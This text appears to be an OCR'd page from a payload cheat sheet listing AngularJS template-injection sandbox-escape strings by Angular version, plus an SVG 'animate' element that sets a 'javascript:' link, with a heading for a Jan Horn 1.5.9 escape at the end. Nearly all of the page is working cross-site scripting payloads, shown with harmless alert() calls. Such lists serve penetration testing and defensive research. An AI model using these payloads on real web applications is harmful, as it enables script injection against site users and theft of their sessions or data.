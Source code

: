 ```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```
---

**1.3.3**

As literal object:
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(Evaluated Object Literal)');}}
```

As Array: 
```
{{x = [''.constructor.prototype]; x[0].charAt=[].join; $eval('x=alert(Evaluated Array)');}}
```

**Versions 1.3.0 - 1.5.7:**

```
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```

**Versions 1.2.20 - 1.2.29:**

```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

**Version 1.2.19:**

```
{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}
```

**Versions 1.2.6 - 1.2.18:**

```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**Versions 1.2.0 - 1.2.5:**

```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

**SVG**

```
<svg>
  <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
    <circle r="400"></circle>
    <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" />
  </a>
</svg>
```

**Angular 1.5.9 Jan Horn sandbox escape**
